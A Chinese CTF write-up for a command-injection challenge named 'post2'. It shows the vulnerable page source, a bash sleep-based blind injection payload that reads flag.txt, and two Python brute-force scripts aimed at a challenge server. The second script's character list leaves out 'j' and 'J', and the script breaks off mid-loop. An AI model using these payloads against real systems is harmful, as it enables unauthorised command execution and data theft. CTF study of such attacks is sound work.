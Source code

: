 <br/>

#### post2(400)

> http://120.55.43.255:22712

查看网页源码
```html
POST[cmd] 这次我们玩过滤好了。
<!--
	eval(exec($c));//read flag.txt But no cat!！！
-->
```
同上一题post1，使用cut命令，区别在于exec执行命令后没有回显，空格没有过滤。本题正解是通过sleep命令盲注，构造的playload为（中括号相邻必须有空格）
```bash
[ `cut -b 2 flag.txt` == 'l' ] && sleep 1
```
盲注脚本参考
```python
# http://pumpkin9.top/2019/12/24/%E7%AC%AC%E5%9B%9B%E5%AD%A3CTF%E7%AD%94%E9%A2%98%E8%B5%9Bwrite-up/
import requests
import string
dic = string.printable
flag = ""
for j in range(1,33):
	for i in range(len(dic)):
		url = "http://120.55.43.255:22712"
		data = {
			"cmd" : '''[ `cut -c '''+str(j)+''' flag.txt` =  "%c" ]  && sleep 5'''%dic[i]
		}
		try:
			r = requests.post(url,data=data,timeout=1)
			# print data
		except requests.exceptions.ReadTimeout,e:
			flag += dic[i]
			print flag
			break



import requests
import time

url = 'http://120.55.43.255:22712/'
alphabet = ['?','!','|','[',']','{','}','_','/','*','-','+','&',"%",'#','@','$','^','~','a','b','c','d','e','f','g','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','G','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']
flag = ''
count = 0
sign = 0

for i in range(50):
	count += 1
	payload = ''
	payload += 'a=`cut${IFS}-c${IFS}'
	payload += str(count)
	payload += '''${IFS}flag.txt`;${IFS}[${IFS}$a${IFS}=${IFS}"'''
	payload += '}'
	payload += '''"${IFS}]${IFS}&&${IFS}sleep${IFS}3'''
	data = {'cmd':payload}
	a = time.time()
	r = requests.post(url,data=data)
	b = time.time()
	if (b-a)>2 :
```